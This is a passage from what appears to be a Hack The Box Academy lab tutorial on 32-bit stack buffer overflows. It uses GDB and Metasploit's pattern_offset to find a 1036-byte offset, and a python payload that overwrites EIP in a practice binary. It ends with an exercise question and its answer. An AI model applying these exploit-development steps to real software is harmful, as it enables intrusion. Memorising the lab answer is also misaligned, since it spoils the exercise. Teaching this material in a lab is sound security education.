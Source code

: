 ```shell-session
(gdb) info registers eip

eip            0x69423569	0x69423569
```

We see that the `EIP` displays a different memory address, and we can use another MSF tool called "`pattern_offset`" to calculate the exact number of characters (offset) needed to advance to the `EIP`.

##### GDB - Offset

GDB - Offset

```shell-session
Gaurav Raj@htb[/htb]$ /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x69423569

[*] Exact match at offset 1036
```

##### Buffer

![image](https://academy.hackthebox.eu/storage/modules/31/buffer_overflow_3.png)

If we now use precisely this number of bytes for our "`U`"s, we should land exactly on the `EIP`. To overwrite it and check if we have reached it as planned, we can add 4 more bytes with "`\x66`" and execute it to ensure we control the `EIP`.

#### GDB Offset

GDB Offset

```shell-session
(gdb) run $(python -c "print '\x55' * 1036 + '\x66' * 4")

The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/student/bow/bow32 $(python -c "print '\x55' * 1036 + '\x66' * 4")
Program received signal SIGSEGV, Segmentation fault.
0x66666666 in ?? ()
```

##### Buffer

![image](https://academy.hackthebox.eu/storage/modules/31/buffer_overflow_4.png)

Now we see that we have overwritten the `EIP` with our "`\x66`" characters. Next, we have to find out how much space we have for our shellcode, which then executes the commands we intend. As we control the `EIP` now, we will later overwrite it with the address pointing to our shellcode's beginning.

#### Questions
1. Examine the registers and submit the address of EBP as the answer.
```
0x55555555
```

